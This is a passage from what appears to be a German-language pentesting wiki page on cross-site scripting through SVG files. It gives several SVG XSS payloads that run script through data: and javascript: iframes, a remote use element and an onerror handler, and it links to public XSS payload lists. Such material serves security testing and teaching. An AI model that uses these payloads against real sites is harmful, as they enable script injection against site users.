 ```svg
<svg width="500" height="500"
xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<circle cx="50" cy="50" r="45" fill="green"
id="foo"/>

<foreignObject width="500" height="500">
<iframe xmlns="http://www.w3.org/1999/xhtml" src="data:text/html,&lt;body&gt;&lt;script&gt;document.body.style.background=&quot;red&quot;&lt;/script&gt;hi&lt;/body&gt;" width="400" height="250"/>
<iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:document.write('hi');" width="400" height="250"/>
</foreignObject>
</svg>
```

```html
<svg><use href="//portswigger-labs.net/use_element/upload.php#x"/></svg>
```

```xml
<svg><use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://www.w3.org/2000/svg' &gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />
```
Finde **weitere SVG-Payloads in** [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)

## Verschiedene JS-Tricks & relevante Informationen

{% content-ref url="other-js-tricks.md" %}
[other-js-tricks.md](other-js-tricks.md)
{% endcontent-ref %}

## XSS-Ressourcen

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection)
* [http://www.xss-payloads.com](http://www.xss-payloads.com) [https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt) [https://github.com/materaj/xss-list](https://github.com/materaj/xss-list)
* [https://github.com/ismailtasdelen/xss-payload-list](https://github.com/ismailtasdelen/xss-payload-list)
* [https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec](https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec)
* [https://netsec.expert/2020/02/01/xss-in-2020.html](https://netsec.expert/2020/02/01/xss-in-2020.html)

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
